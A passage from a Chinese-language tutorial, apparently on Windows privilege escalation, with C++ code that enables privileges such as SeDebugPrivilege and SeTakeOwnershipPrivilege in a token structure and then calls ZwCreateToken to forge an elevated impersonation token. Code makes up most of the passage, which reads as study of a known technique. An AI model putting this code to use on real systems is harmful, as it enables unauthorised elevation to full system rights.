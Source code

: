 ```c++
    pTokenPrivileges->Privileges[1].Luid = luid;

    // Enable SeCreateTokenPrivilege
    LookupPrivilegeValue(NULL, SE_CREATE_TOKEN_NAME, &luid);
    pTokenPrivileges->Privileges[2].Attributes = SE_PRIVILEGE_ENABLED;
    pTokenPrivileges->Privileges[2].Luid = luid;

    // Enable SeRestorePrivilege
    LookupPrivilegeValue(NULL, SE_RESTORE_NAME, &luid);
    pTokenPrivileges->Privileges[3].Attributes = SE_PRIVILEGE_ENABLED;
    pTokenPrivileges->Privileges[3].Luid = luid;

    // Enable SeTakeOwnershipPrivilege
    LookupPrivilegeValue(NULL, SE_TAKE_OWNERSHIP_NAME, &luid);
    pTokenPrivileges->Privileges[4].Attributes = SE_PRIVILEGE_ENABLED;
    pTokenPrivileges->Privileges[4].Luid = luid;

    // Enable SeDebugPrivilege
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
    pTokenPrivileges->Privileges[5].Attributes = SE_PRIVILEGE_ENABLED;
    pTokenPrivileges->Privileges[5].Luid = luid;
}
```

为了能够成功模拟新生成的令牌，还有最后重要的一点，就是将令牌的拥有者设为当前用户。这里也是先查询当前进程令牌的 TokenUser 信息，该信息与访问令牌关联的用户的 SID，我们只需要将这个 SID 设置到 `ZwCreateToken()` 函数的 `Owner` 参数中即可：

```php
pTokenUser = (PTOKEN_USER)GetTokenInfo(hToken, TokenUser);
// ...
pTokenOwner = (PTOKEN_OWNER)LocalAlloc(LPTR, sizeof(PSID));
pTokenOwner->Owner = pTokenUser->User.Sid;
```

最后将调用 `ZwCreateToken()` 函数来生成模拟令牌，生成的令牌被保存在 `pElevatedToken` 指针所指向的内存中：

```c++
Status = ZwCreateToken(
    &pElevatedToken,
    TOKEN_ALL_ACCESS,
    &objectAttributes,
    TokenImpersonation,
    &AuthenticationId,
    &ExpirationTime,
    pTokenUser,
    pTokenGroups,
    pTokenPrivileges,
    pTokenOwner,
    pTokenPrimaryGroup,
    pTokenDefaultDacl,
    &tokenSource
);
if (Status != STATUS_SUCCESS)
{
    wprintf(L"[-] ZwCreateToken Error: [0x%x].\n", Status);
    goto Clear;
}
wprintf(L"[*] ZwCreateToken successfully and get elevated token:\n\n");
```
